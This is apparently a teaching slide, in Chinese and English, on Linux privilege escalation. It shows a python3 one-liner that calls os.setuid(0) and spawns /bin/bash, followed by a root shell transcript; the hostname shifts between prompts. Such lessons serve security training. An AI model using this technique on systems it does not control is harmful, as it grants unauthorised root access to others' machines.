

Linux Privilege Escalation
在以下 python3 命令所執行的 程式可執行 os.setuid(0) 這行命令, 提升 /bin/bash 這命令為 root 權限
$ ./python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
root@ub204:~# id
uid=0(root) gid=1001(rbean) groups=1001(rbean)
root@ddg52:~# touch  /hi
root@ddg52:~# exit

$ exit